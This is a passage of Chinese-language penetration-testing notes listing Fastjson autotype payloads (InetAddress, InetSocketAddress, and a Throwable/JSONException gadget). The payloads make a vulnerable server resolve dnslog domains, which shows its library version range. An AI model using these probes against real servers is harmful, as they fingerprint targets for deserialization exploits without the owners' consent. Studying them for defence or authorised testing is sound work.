 2. 利用`InetAddress`类 (探测 < 1.2.48)
    
    payload:
    
    ```java
    {
        "@type":"java.net.InetAddress",
        "val":"dnslog.com"
    }
    ```
    
3. 利用`InetSocketAddress`类 (探测 < 1.2.68)
    
    payload:
    
    ```java
    {
        "@type":"java.net.InetSocketAddress"
        {
            "address":,
            "val":"dnslog.com"
        }
    }
    ```
    
4. `Throwable` Gadget (探测 v1.2.80 vs v1.2.83)
    
    payload:
    
    ```java
    [
      {
        "@type": "java.lang.Exception",
        "@type": "com.alibaba.fastjson.JSONException",
        "x": {
          "@type": "java.net.InetSocketAddress"
      {
        "address":,
        "val": "first.dnslog.cn"
      }
    }
    },
      {
        "@type": "java.lang.Exception",
        "@type": "com.alibaba.fastjson.JSONException",
        "message": {
          "@type": "java.net.InetSocketAddress"
      {
        "address":,
        "val": "second.dnslog.cn"
      }
    }
    }
    ]
    ```
    